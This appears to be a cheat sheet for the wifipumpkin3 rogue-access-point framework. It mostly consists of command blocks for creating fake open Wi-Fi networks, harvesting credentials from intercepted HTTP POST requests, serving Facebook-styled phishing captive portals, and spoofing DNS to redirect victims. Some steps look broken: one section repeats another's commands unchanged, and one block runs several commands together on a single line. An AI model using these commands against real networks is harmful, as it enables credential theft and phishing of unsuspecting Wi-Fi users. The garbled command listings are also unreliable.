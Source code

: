 # wifipumpkin3

## Wifipumpkin3

***

Wifipumpkin3 is a powerful framework for conducting rogue access point attacks, man-in-the-middle attacks, and more. It's a valuable tool for security researchers, red teamers, and reverse engineers. Here's a cheat sheet to help you get started with Wifipumpkin3.

### Installation

Before using Wifipumpkin3, you need to install the necessary dependencies and set up the tool.

#### Installing Dependencies

```jsx
apt install libssl-dev libffi-dev build-essential
```

#### Clone Wifipumpkin3 Repository

```bash
git clone <https://github.com/P0cL4bs/wifipumpkin3.git> 
cd wifipumpkin3 
apt install python3-pyqt5
```

#### Additional Python Dependencies

```bash
python3 -c "from PyQt5.QtCore import QSettings; print('done')" 
python3 setup.py install
```

### Creating a Fake Access Point

***

To create a fake access point and perform a man-in-the-middle attack

```bash
wifipumpkin3 set interface wlan0 
wifipumpkin3 set ssid "Free Wifi" 
wifipumpkin3 set proxy noproxy 
wifipumpkin3 ignore pydns_server 
wifipumpkin3 start
```

### Capturing HTTP Post Requests

***

Capture HTTP POST requests to harvest user credentials

```bash
wifipumpkin3 set interface wlan0 
wifipumpkin3 set ssid "Free Wifi" 
wifipumpkin3 set proxy noproxy 
wifipumpkin3 ignore pydns_server 
wifipumpkin3 start
```

### Creating a Captive Portal

***

Create a secure captive portal for phishing attacks

```bash
wifipumpkin3 set interface wlan0 wifipumpkin3 set ssid "Hotspot" wifipumpkin3 set proxy captiveflask true wifipumpkin3 ignore pydns_server wifipumpkin3 start
```

### Using Custom Captiveflask Templates

***

Use custom captiveflask templates for phishing attacks

```bash
wifipumpkin3 set interface wlan0 
wifipumpkin3 set ssid "Open Wifi" 
wifipumpkin3 set proxy captiveflask 
wifipumpkin3 set captiveflask.facebook true 
wifipumpkin3 ignore pydns_server 
wifipumpkin3 start
```

### Writing Pulp Scripts

***

Automate commands with Pulp scripts for faster execution

```bash
# Create a Pulp script (e.g., demo.pulp) 
nano demo.pulp 
# Run the Pulp script 
wifipumpkin3 --pulp demo.pulp
```

### One-Liner Attack

***

Execute commands in one line for quick attacks

```bash
wifipumpkin3 --xpulp "set interface wlan0; set ssid nisha; set proxy noproxy; start"
```

### DNS Spoofing

***

Spoof DNS servers to redirect victims to malicious sites

```bash
wifipumpkin3 set interface wlan0
wifipumpkin3 set ssid "HA" 
wifipumpkin3 set proxy noproxy
wifipumpkin3 ignore pydns_server
wifipumpkin3 set domains vulnweb.com
wifipumpkin3 set redirectTo 192.168.1.2
wifipumpkin3 start
```
